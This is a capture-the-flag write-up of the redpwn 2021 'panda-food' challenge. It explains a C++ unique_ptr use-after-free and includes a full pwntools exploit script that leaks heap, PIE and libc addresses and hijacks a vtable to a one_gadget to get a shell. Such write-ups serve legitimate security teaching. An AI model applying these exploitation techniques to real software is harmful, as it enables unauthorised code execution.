

# C++ Smart Pointer UAFs: redpwn 2021's `panda-food`

Like most beginners in pwn, I've only a passing familiarity with cpp binary exploits<sup>1</sup>. This writeup targets beginners with little-to-no C++ exploitation background, and you can skip to the [TL;DR](#tldr) at the end if you just want the solution.

## Challenge details

Author: NotDeGhost

When in doubt, hijack a vtable
`nc mc.ax 31707`

**Files**: [Dockerfile](https://static.redpwn.net/uploads/5cadae788ed9fb0953956a8a8bf48fb3fc30a2b4662ba7e8fbb5dbd6385327ba/Dockerfile) (implies `libc6_2.27-3ubuntu1.4_amd64`) [Makefile](https://static.redpwn.net/uploads/8482ec7e87129557889e6cf98a808ad7a63280e9140d87eb4b7961b19e56c66d/Makefile) ( `-O3 -static-libstdc++ -static-libgcc`) [chall](https://static.redpwn.net/uploads/27c093ac7d1ea3abf6f69200e6e9eaa6459cc15b95e9124c4450e92324ecb12d/chall)

```
[*] 'chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

[chall.cc](https://static.redpwn.net/uploads/db62f9daed24b7953ae93b79356e0920cd362d71c1799c4e07d1615f7b511fa8/chall.cc) (slightly minified)

```cpp
#include <iostream>
#include <string>
#include <bits/stdc++.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>

class Food {
 public:
  Food(std::string name) : name_(std::move(name)) {}
  virtual void Eat() { std::cout << "om nom nom" << std::endl; }
  void PrintName() { std::cout << "name: " << name_ << std::endl; }
  std::string name_;
};

class Bamboo : public Food {
 public:
  Bamboo(const std::string&& name) : Food(std::move(name)) {}
  virtual void Eat() { std::cout << "crunch crunch" << std::endl; }
};

inline size_t get_idx() {
  size_t idx;
 std::cout << "idx: " << std::endl;
  std::cin >> idx;
  return idx;
}

uint64_t rand64() {
  uint64_t var = 0;
  static int ufd = open("/dev/urandom", O_RDONLY);
  if (read(ufd, &var, sizeof(var)) != sizeof(var)) {
    perror("ufd read");
    exit(1);
  }
  return var;
}

int main() {
  std::map<size_t, std::unique_ptr<Food>> foods;
  Food* favorite = nullptr;

  int choice;
  while (true) {
    std::cout << "choice: " << std::endl;
    std::cin >> choice;

    switch (choice) {
      case 0: {
        size_t idx = get_idx();
        std::unique_ptr<Food> tmp;
        std::string name;
        std::cout << "name: " << std::endl;
        std::cin >> name;

        if (name.length() > 0x1000) {
          std::cout << "too big :/" << std::endl;
          _Exit(1);
        } else {
          if (rand64() % 2 == 1) tmp = std::make_unique<Bamboo>(std::move(name));
          else tmp = std::make_unique<Food>(std::move(name));
          foods[idx] = std::move(tmp);
        }
        break;
      }
      case 1: {
        size_t idx = get_idx();
        favorite = foods[idx].get();
        break;
      }
      case 2: {
        if (favorite) favorite->PrintName();
        else std::cout << "set a favorite first!" << std::endl;
        break;
      }
      case 3: {
        char one_gadget_padding[0x100];
        memset(one_gadget_padding, 0, sizeof(one_gadget_padding));
        if (favorite) favorite->Eat();
        else std::cout << "set a favorite first!" << std::endl;
        break;
      }
      case 4: {
        _Exit(0);
        break;
      }
    }
  }
}
```

Associated I/O glue:

```python
from pwnscripts import *
from string import whitespace
context.binary = 'chall'
if args.LOCAL:
    context.libc = 'libc6_2.27-3ubuntu1.4_amd64'
    r = context.binary.process()
else: r = remote('mc.ax', 31707)

optc = 0
def flush(): # speed up i/o by deferring recvs until necessary
    global optc
    while optc:
        r.recvuntil('choice: \n')
        optc -= 1
def choose(opt: int):
    global optc
    r.sendline(str(opt)) # io speed: r.sendlineafter('choice: \n', str(opt))
    optc+=1

def sendidx(idx: int): r.sendline(str(idx)) # io speed: r.sendlineafter('idx: \n', str(idx))
def alloc(idx: int, name: bytes):
    assert all(c not in whitespace.encode() for c in name) # whitespace will cause cin to terminate. This necessarily means that some ASLR bytes can kill an exploit.
    assert len(name) < 0x1000
    choose(0)
    sendidx(idx)
    r.sendline(name) # io speed: r.sendlineafter('name: \n', name)
def fav(idx: int):
    choose(1)
    sendidx(idx)
def printName() -> bytes:
    choose(2)
    flush()
    r.recvuntil('name: ')
    return r.recvline(timeout=1)[:-1]
def Eat(): choose(3)
```

## Exploring

Looking at the code, although I'm unable to spot the obvious bug for a lack of experience, I manage to identify a few oddities:

- `Bamboo`'s constructor uses `string&&`; `Food` uses `string`. I know that `&` means "pass by reference", so only one of the two constructors will allocate and duplicate an entire `string`. The random nature of Food vs Bamboo probably complicates the exploit to make fuzzing a bit harder.
- `unique_ptr<Bamboo>` gets casted away into `unique_ptr<Food>`, and `unique_ptr<Food>` can get casted into a `Food*` in `favorite`.
- there's an obvious need to overwrite virtual function `Eat()` with a `one_gadget``

I figure I need a better understanding of the C++ types used here, so I begin to search.

### `std::google`

The first thing I search for is [`std::move`](https://en.cppreference.com/w/cpp/utility/move). It seems to magically move around memory references somehow, invalidating the argument passed to `move(...)`. That's interesting from a programmatic perspective, but I don't really understand how it'll be relevant for the pwn.

I search for [`std::make_unique`](https://en.cppreference.com/w/cpp/memory/unique_ptr/make_unique) next. It returns a [`std::unique_ptr`](https://en.cppreference.com/w/cpp/memory/unique_ptr), so I search for that too. With a little bit of reading, I figure out that I've actually heard of `unique_ptr`s before, under a different name: [smart pointers](https://docs.microsoft.com/en-us/cpp/cpp/smart-pointers-modern-cpp). The example at the link makes them really easy to understand:



A `unique_ptr` will be deleted (freed) when it goes "out of scope". In the case of the current program, there's a `unique_ptr<Food> tmp` scoped to `case 0`: 

```c++
case 0: {
  size_t idx = get_idx();
  std::unique_ptr<Food> tmp;
  if (name.length() > 0x1000) {
    std::cout << "too big :/" << std::endl;
    _Exit(1);
  } else {
    if (rand64() % 2 == 1) tmp = std::make_unique<Bamboo>(std::move(name));
    else tmp = std::make_unique<Food>(std::move(name));
    foods[idx] = std::move(tmp);
  }
  break;
} // tmp is deleted automatically here?
```

In this case, `tmp` _isn't_ freed after breaking from `case 0`, which I can demonstrate readily with `ltrace`:

```sh
$ ltrace ./chall 2>&1 | grep -e malloc -e free -e fwrite
malloc(72704)                                    = 0x7fffd2069010
fwrite("choice: ", 1, 8, 0x7fcd0e4ea600)         = 8
0
fwrite("idx: ", 1, 5, 0x7fcd0e4ea600)            = 5
0
fwrite("name: ", 1, 6, 0x7fcd0e4ea600)           = 6
hiii
malloc(40)                                       = 0x7fffd207be40
malloc(48)                                       = 0x7fffd207be70
```

Over here, I've allocated a `unique_ptr<Food>` to `foods[0]`. `std::move` effectively "transfers ownership"<sup>2</sup> of the smart pointer to `foods[]`. If I repeat that allocation,

```c++
fwrite("choice: ", 1, 8, 0x7fcd0e4ea600)         = 8
0
fwrite("idx: ", 1, 5, 0x7fcd0e4ea600)            = 5
0
fwrite("name: ", 1, 6, 0x7fcd0e4ea600)           = 6
heyagain
malloc(40)                                       = 0x7fffd207beb0
free(0x7fffd207be40)                             = <void>
fwrite("choice: ", 1, 8, 0x7fcd0e4ea600)         = 8
```

 A `free()` _does_ happen this time, because when a _new_ `unique_ptr` is assigned to `foods[0]`, the pointer that already existed at `foods[0]` understands that there are no references left to it (that it has gone out of scope), causing it to delete itself.

At this point, I get a flash of insight as I discover what the main bug is: `favorite`.

```c++
case 1: {
  size_t idx = get_idx();
  favorite = foods[idx].get();
  break;
}
```

`favorite` is a normal "dumb" pointer. A `unique_ptr` from `foods[]` can't keep track of `favorites`, and when the `unique_ptr` associated with `favorites` is freed, a dangling pointer is left in `favorites`, causing a **use after free**.

### Testing the UAF

I start with a little bit of experimentation:

```python
alloc(0, b'a'*0x47)
alloc(1, b'b'*0x47)
alloc(2, b'c'*0x47)
fav(2)
alloc(2, b'A'*0x17)
alloc(1, b'B'*0x17)
alloc(0, b'C'*0x17)
printName()
```

My hope here is that, in using allocations of different sizes, the merging and reallocation<sup>3</sup> of a freed `foods[2]` will lead to one of the input strings overwriting `*favorites`.

The code above produces a crash somewhere around 20% of the time; here's one possible variant of a crash, where the contents of `favorite` are overwritten with the string data of the 2nd re-allocation: 

```
(gdb) telescope favorite
0x00007ffff76da1c0│+0x0000: "BBBBBBBBBBBBBBBBBBBBBBB"
0x00007ffff76da1c8│+0x0008: "BBBBBBBBBBBBBBB"
0x00007ffff76da1d0│+0x0010: 0x0042424242424242 ("BBBBBBB"?)
0x00007ffff76da1d8│+0x0018: 0x000000000000003c ("<"?)
0x00007ffff76da1e0│+0x0020: 0x0000000000000000
0x00007ffff76da1e8│+0x0028: 0x0000000000000051 ("Q"?)
0x00007ffff76da1f0│+0x0030: 0x0000000000000000
0x00007ffff76da1f8│+0x0038: "ccccccccccccccccccccccccccccccccccccccccccccccc"
0x00007ffff76da200│+0x0040: "ccccccccccccccccccccccccccccccccccccccc"
0x00007ffff76da208│+0x0048: "ccccccccccccccccccccccccccccccc"
```

At this point, it might be helpful to describe my approximation of how `Food`/`Bamboo` is represented in memory:

```cpp
struct Food {
	void **_vtable; // _vtable[0] == Eat()
    basic_string name_;
}
struct basic_string {
    union {
        struct {
            char *p; // when capacity>0xf, p holds a pointer to the actual bytes of the string data.
            size_t size; // don't really know what happens to this for capacity < 0x10
        } 
        char buf[0x10];
    }
    size_t capacity;
} // sizeof(basic_string) == 0x20
```

The invalid `favorite` struct has `favorite->name_.p` pointing to `0x4242424242424242`, which necessarily causes a segfault when dereferenced. If I change `b'B'*0x17` in my exploit code to `fit({8: pack(ptr)})+b'B'*7`, I'll be able to leak the contents of `ptr`.

The conditions are not favorable:

```python
Start              End                Offset             Perm Path
0x00005576017e3000 0x00005576018ca000 0x0000000000000000 r-x chall
0x0000557601ac9000 0x0000557601ad1000 0x00000000000e6000 r-- chall
0x0000557601ad1000 0x0000557601ad2000 0x00000000000ee000 rw- chall
0x0000557601ad2000 0x0000557601ad5000 0x0000000000000000 rw-
0x0000557603514000 0x0000557603535000 0x0000000000000000 rw- [heap]
0x00007f2678706000 0x00007f2678709000 0x0000000000000000 rw-
0x00007f2678709000 0x00007f267872e000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f267872e000 0x00007f26788a6000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788a6000 0x00007f26788f0000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f0000 0x00007f26788f1000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f1000 0x00007f26788f4000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f4000 0x00007f26788f7000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f7000 0x00007f26788fb000 0x0000000000000000 rw-
0x00007f26788fb000 0x00007f267890a000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f267890a000 0x00007f26789b1000 0x000000000000f000 r-x /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f26789b1000 0x00007f2678a48000 0x00000000000b6000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a48000 0x00007f2678a49000 0x000000000014c000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a49000 0x00007f2678a4a000 0x000000000014d000 rw- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a4a000 0x00007f2678a4c000 0x0000000000000000 rw-
0x00007f2678a62000 0x00007f2678a63000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a63000 0x00007f2678a86000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a86000 0x00007f2678a8e000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a8f000 0x00007f2678a90000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a90000 0x00007f2678a91000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f2678a91000 0x00007f2678a92000 0x0000000000000000 rw-
0x00007fffb3172000 0x00007fffb3193000 0x0000000000000000 rw- [stack]
0x00007fffb31b6000 0x00007fffb31b9000 0x0000000000000000 r-- [vvar]
0x00007fffb31b9000 0x00007fffb31ba000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```

All (readable) addresses are randomised, so I'll have to find a way to leak data otherwise first.

## Exploit hypothesis

After a bit more experimentation, I successfully leak a pointer by doing this:

```python
alloc(0, b'a'*0x97)
fav(0)
alloc(0, b'A'*0x27)
print(printName())
```

Resulting in:

```
[+] Opening connection to mc.ax on port 31707: Done
0x55f53971df10000000000000000000000000000000000000000000000000000055f53971dec00000000000000000000055f53971de90000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000010000000000000100000001000100
```

That `0x55` could be a heap pointer or a PIE pointer, so I do a lot of gdb work to figure out that this primitive leaks data from the tcache, and that the pointers leaked above are necessarily heap pointers.

Right now, I have

1. an unreliable exploit that, when successful, can produce an arbitrary read, as well as RIP control.
2. a reliable heap pointer leak

Since `struct Foods` are stored on the heap, the pointer to their vtables (which are stored at a PIE address) can be leaked. That PIE leak can be used to further leak a libc address from the GOT, and _that_ leak can be used to overwrite RIP with a one_gadget.

So, problem solved? Not quite.

My primitive for arbitrary read / RIP control --- the fake `struct Food` primitive --- isn't reliable enough to be executed 3 times in succession on a single connection. I need to try something else.

### Better primitives

Here's my first idea: find some way to toss the pointer for `favorites` onto the unsorted bin. Once that's accomplished, `favorites->bk` should point to somewhere near `main_arena`, just as how putting `favorites` on the tcache caused `favorites->bk` to point to somewhere on the heap. Leaking libc immediately would reduce the number of fake `struct Food`s required to 1, which was demonstrated prior to be achievable.

I work on heap feng shui for a really long time, and although I managed to bring the `favorites` pointer onto the fastbins and the smallbins, it never gets chucked into the unsorted bin.

Shifting tracks, I move on to work on a better fake `struct Food` primitive. I run a lot of `ltrace` experiments, and I eventually come up with a pseudocode understanding of how/when `free()` and `malloc()` is called in `case 0`:

```python
idx = getidx()
is_new = not foods.count(idx)
name = input()
if name.size() > 0xf: # if `name` needs name.p
    sz = 31
    backing_store = malloc(sz)
    while sz <= name.size():
        free(backing_store)
        sz = sz*2-1
        malloc(sz)
tmp = malloc(40) # unique <Food> or <Bamboo>
if name.size() > 0xf: tmp.name_.p = backing_store
typ = rand64()%2 # 1 means bamboo
if typ: tmp.name_.p = alloc(name.size()+1) # store copy of string
if is_new: malloc(48) # allocate space for map
if not is_new and foods[idx].name_.capacity > 0xf: free(foods[idx].name_.p)
if typ: free(backing_store)
if not is_new: free(foods[idx])
foods[idx] = tmp
```

I do _even more experiments_, and I hit a good solution:

1. Make sure the tcache is empty; it's LIFO.
2. create a new `unique_ptr` at `foods[idx]`, where `foods[idx]` has never been allocated before. Ensure that `name.size() > 0x28` to keep `tcache[size=0x30]` empty.
3. favorite `foods[idx]`; repeat step 2. `tcache[size=0x30]` should _only_ contain `favorites` now.
4. create a new `unique_ptr` at `foods[nidx]`, where `foods[nidx]` has never been allocated before, and `name.size()` lies within [0x10, 0x18).
5. If `foods[nidx]` was a Bamboo<sup>4</sup>, `favorites` remains at the top of `tcache[size=0x30]`, and step 4 should be repeated. Otherwise, `favorites` was overwritten with the `name` from step 4.
   `favorites` has a `(1/2)**i` chance of being overwritten correctly, where `i` is the number of times step 4 happens. 

Programmatically:

```python
def fakeFood(payload: bytes) -> int:
    '''creates a fake Food struct containing `payload` at a random `idx`, stored as favorite. returns idx'''
    idx = randint(100,1<<30)
    alloc(idx, b'b'*60)
    fav(idx)
    alloc(idx, b'b'*60)
    for i in range(10): alloc(idx+i+1, payload[:0x17].ljust(0x17, b'\0'))
    return idx
```

This works reliably, so long as `payload` contains no whitespace. Right now, I have:

1. a reliable exploit that produces an arbitrary read, as well as RIP control.
2. a reliable heap pointer leak

Can I finish the challenge? Maybe.

### Exploitation minutiae

First of all, I need to figure out the offsets to get from leak-to-leak. The heap base is easy to figure out:

```python
heapbase = (heapleak>>12)<<12
```

But what do you do with that? I need to find the location of an active `struct Food` in memory for leaking, so I search for it:

```python
def leak(addr: int, sz: int=8): # leak the first `sz` bytes from `addr`
    fakeFood(fit({8:addr,0x10:sz+8}))
    return unpack(printName()[:sz],'all')
alloc(1, b'a'*7)
search_str = b'\0%s\0' % (b'a'*7)
foods1_offset = next(i for i in range(0,99999,0x1000) if search_str in (dat := pack(leak(heapbase+i,0x1000),'all')))
foods1_offset+= dat.index(search_str)-0x17 # -0x17 because that's the distance from this string to the _vtable.
PIE_leak = leak(heapbase+foods1_offset) # this is a leak of `food[idx]->_vtable`. 
```

The pointer leaked is either `Food`'s vtable or `Bamboo`'s vtable, depending on what `food[idx]` was.


I'll use that information to calculate the PIE base:

```python
def checkWhich(idx: int) -> str:
    '''figure out if foods[idx] was a Bamboo or a Food.
    Destroys the current `favorite`.'''
    fav(idx)
    Eat()
    flush()
    return 'bamboo' if b'crunch' in r.recvline() else b'food'
context.binary.address = pie_leak - (0x2e7d78 if checkWhich(1) == 'bamboo' else 0x2e7d50)
```

The next part is almost robotic: leaking libc from the GOT.

```python
context.libc = context.libc_database.libc_find({f:leak(context.binary.got[f]) for f in ['malloc', 'free']})
```

Finally, I just need to set `favorites->_vtable = &one_gadget` to win. I flood the heap with copies of `one_gadget` and leak out its position accordingly to pop a shell:

```python
og = context.libc.select_gadget(1) # (2) doesn't work; memset() in chall.cc was optimised out in the actual binary...
alloc(2, pack(og)*0x1ff) # flood the heap with the one_gadget to make finding heap offset easier
fakeFood(pack(heapbase+next(i for i in range(0,0x5000,0x800) if leak(heapbase+i) == og)))
flush()
Eat()
r.interactive()
```

That's the end. Fun challenge.

```python
[+] Opening connection to mc.ax on port 31707: Done
[*] heap: 0x559d3b513000
[*] PIE: 0x559d39fd3000
[*] found libc! id: libc6_2.27-3ubuntu1.4_amd64
[*] one_gadget: 0x7f8d39985432
[*] Switching to interactive mode
idx:
name:
choice:
$ ls
flag.txt
run
$ cat flag.txt
flag{hijacking_vtables_like_321_4243f93}
```

## Footnotes

1. Necessarily, this writeup will be riddled with misinformation and mistakes. Don't take this as gospel, read the sources for yourself, and make a PR on this writeup if there's a mistake you really care about.
2. This is not the proper terminology and I won't pretend I know what it ought to be.
3. This doesn't happen at all in reality. It's almost impossible to remerge any of the allocations back into `malloc_arena->top`, meaning that most allocations remain confined to their own tcaches (and fastbins/smallbins if necessary), The experiment here worked as a matter of coincidence: when `string.size()` is in the range [0x10, 0x1f), a `malloc(0x1f)` call is made to handle it. This just-so-happens to land in `tcache[size=0x30]`, which is also host to Food/Bamboo structs.
4. I'm still not sure about this part. The code seems to indicate vice versa, but either way it's still a 1/2 chance per loop.

## TLDR

- `free` a `unique_ptr<Food>` by overwriting an already existing `foods[idx]`
- saving a `Food*` pointer in `favorite` allows for a UAF;
- `->bk` can be used to leak the heap
- Modify the contents of `favorite` by heap-feng-shui-ing an 0x30 heap chunk onto the backing store for `string name`
- Use modified `favorite`s to leak PIE from heap, and libc from PIE
- modify `favorite`'s vtable to jump to `one_gadget`

## Code

note: your libc-database might contain ` libc6_2.27-3ubuntu1.3_amd64`; I removed it because the package for that libc version [appears to be deleted](archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1.3_amd64.deb).

It's also worth noting that this code should succeed both locally _and_ on remote. 

```python
from pwnscripts import *
from string import whitespace
from random import randint
context.binary = 'chall'
if args.LOCAL:
    context.libc = 'libc6_2.27-3ubuntu1.4_amd64'
    r = context.binary.process()
else: r = remote('mc.ax', 31707)

optc = 0
def flush(): # speed up i/o by deferring recvs until necessary
    global optc
    while optc:
        r.recvuntil('choice: \n')
        optc -= 1
def choose(opt: int):
    global optc
    r.sendline(str(opt)) # io speed: r.sendlineafter('choice: \n', str(opt))
    optc+=1

def sendidx(idx: int): r.sendline(str(idx)) # io speed: r.sendlineafter('idx: \n', str(idx))
def alloc(idx: int, name: bytes):
    assert all(c not in whitespace.encode() for c in name) # whitespace will cause cin to terminate. This necessarily means that some ASLR bytes can kill an exploit.
    assert len(name) < 0x1000
    choose(0)
    sendidx(idx)
    r.sendline(name) # io speed: r.sendlineafter('name: \n', name)
def fav(idx: int):
    choose(1)
    sendidx(idx)
def printName() -> bytes:
    choose(2)
    flush()
    r.recvuntil('name: ')
    return r.recvline(timeout=1)[:-1]
def Eat(): choose(3)

def checkWhich(idx: int) -> str:
    '''figure out if foods[idx] was a Bamboo or a Food.
    Destroys the current `favorite`.'''
    fav(idx)
    Eat()
    flush()
    res = r.recvline()
    if b'crunch' in res: return 'bamboo'
    if b'nom nom' in res: return 'food'
    raise RuntimeError('wrong food')

# step 1: leak heap using a UAF
alloc(0, b'a'*0x97) # larger allocation to allow for larger leak
alloc(1, b'a'*0x7)  # needed for PIE leak later
fav(0)
alloc(0, b'A'*0x27) # Freeing foods[0] causes favorite->name_ to point to the tcache @ heap+0x10 (since favorite->name_ == [favorite+0x8] == (malloc_chunk*)favorite->bk)
heapbase = unpack(printName()[72:80])&0xfffffffff000 # tcache[72:80] == tcache[size=0x30]. & to get base.
log.info('heap: '+hex(heapbase))

'''on a brand new allocation,
    - malloc 40 (Food/Bamboo)
    - if foods[idx] doesn't exist, malloc 48 (map element)
    - if name.size() > 0xf, malloc space for string (31, 61, 121, ...).
    - if food type is Bamboo, allocate name.size() space for a copy of the string.
    - if foods[idx] exists, free the backing store for foods[idx]->name_ (if foods[idx]->name_.size() was > 0xf), and then free foods[idx] itself.'''
def fakeFood(payload: bytes) -> int:
    '''creates a fake Food struct containing `payload` at a random `idx`, stored as favorite. returns idx'''
    idx = randint(100,1<<30) # negligible chance of overlap
    alloc(idx, b'b'*60) # alloc 40, 48, 61, and potentially alloc&&free 61.
    fav(idx)
    alloc(idx, b'b'*60) # alloc 40&61, free previous 61&40.
    # the Food struct for `favorite` is at the top of tcache[size=0x30] at this point.
    for i in range(10): # There's a 1/2 that `favorite` is overwritten with the payload for every loop here. (1/2)**10 is a small enough error rate.
        # The other 1/2 chance puts `favorite` back on the top of tcache, so just repeat to increase odds.
        alloc(idx+i+1, payload[:0x17].ljust(0x17, b'\0')) # Note that len(payload) must not be within [0x18, 0x28) to prevent an additional 0x30 chunk allocation.
        # len(payload) > 0x1f is also forbidden because it would cause the malloc(31) string buffer to be freed. This resolves to len(payload) < 0x17.
    return idx
def leak(addr: int, sz: int=8): # leak the first `sz` bytes from `addr`
    fakeFood(fit({8:addr,0x10:sz+8}))
    return unpack(printName()[:sz],'all')

# step 2: heap leak -> PIE leak -> libc leak
foods1_offset = next(i for i in range(0,99999,0x1000) if b'\0aaaaaaa\0' in (dat := pack(leak(heapbase+i,0x1000),'all'))) # note that this is actually a constant, but I prefer finding the offset dynamically
pie_leak = leak(heapbase+foods1_offset+dat.index(b'\0aaaaaaa\0')-23) # this is a leak of foods[1].vtable.
context.binary.address = pie_leak - (0x2e7d78 if checkWhich(1) == 'bamboo' else 0x2e7d50) # offset to the .relro vtable of Bamboo/Food. Find value from IDA or gdb
log.info('PIE: '+hex(context.binary.address))
assert is_addr.base(context.binary.address)
context.libc = context.libc_database.libc_find({f:leak(context.binary.got[f]) for f in ['malloc', 'free']}) # libc6_2.27-3ubuntu1.4_amd64

# step 3: overwrite vtable to &one_gadget
og = context.libc.select_gadget(1) # empirical testing for working one_gadget
#og = context.binary.address+0x15bc0 # <--- proof of RIP control; this will cause "om nom nom" to appear 100% of the time
alloc(2, pack(og)*0x1ff) # flood the heap with the one_gadget to make finding heap offset easier
log.info('one_gadget: '+hex(og))
#print(pack(leak(og, 200),'all')) # <--- evidence that *one_gadget is real
fakeFood(pack(heapbase+next(i for i in range(0,0x5000,0x800) if leak(heapbase+i) == og)))
flush()
Eat()
r.sendlineafter('choice: \n', 'cat flag.txt\nexit')
log.info(r.recvall().strip().decode())
```